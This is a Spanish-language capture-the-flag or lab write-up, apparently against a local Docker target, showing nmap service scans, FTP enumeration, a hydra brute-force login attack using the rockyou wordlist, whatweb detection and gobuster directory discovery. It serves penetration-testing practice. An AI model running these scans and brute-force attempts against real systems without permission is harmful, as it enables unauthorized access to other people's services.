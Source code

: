 ### Análisis de Servicios
Realizamos un escaneo exhaustivo para determinar los servicios y las versiones que corren detreas de estos puertos
```bash
nmap -sCV -p21,22,80 172.17.0.2 -oN targeted
```

**Servicios identificados:**
```bash
21/tcp open  ftp     vsftpd 2.0.8 or later
22/tcp open  ssh     OpenSSH 9.6p1 Ubuntu 3ubuntu13.4 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    Apache httpd 2.4.58 ((UbuntuNoble))
```
---
## Enumeracion de [Servicio  FTP]
Primero procedemos a enumerar este servicio para detectar posibles fallas de seguridad
Lanzamos un script con **nmap** pero no reporta nada critico:
```bash
nmap --script ftp-anon.nse -p 21 172.17.0.2
```

Lanzamos un script para obtener la version:
```bash
nmap --script banner -p 21 172.17.0.2
```

De primeras no vemos nada critico asi que lanzamos un ataque de fuerza bruta:
```bash
hydra -L /usr/share/SecLists/Usernames/top-usernames-shortlist.txt -P /usr/share/wordlists/rockyou.txt -f ftp://172.17.0.2
```

## Enumeracion de [Servicio Web Principal]
direccion **URL** del servicio:
```bash
http://172.17.0.2/
```
### Tecnologías Detectadas
Realizamos deteccion de las tecnologias empleadas por la web
```bash
whatweb http://172.17.0.2/ # No reporta nada critico
```

Lanzamos un script de **Nmap** para reconocimiento de rutas
```bash
nmap --script http-enum -p 80 172.17.0.2 # No reporta nada critico
```
### Descubrimiento de Rutas
```bash
gobuster dir -u http://172.17.0.2/ -w /usr/share/SecLists/Discovery/Web-Content/directory-list-2.3-big.txt -t 20 --add-slash
```
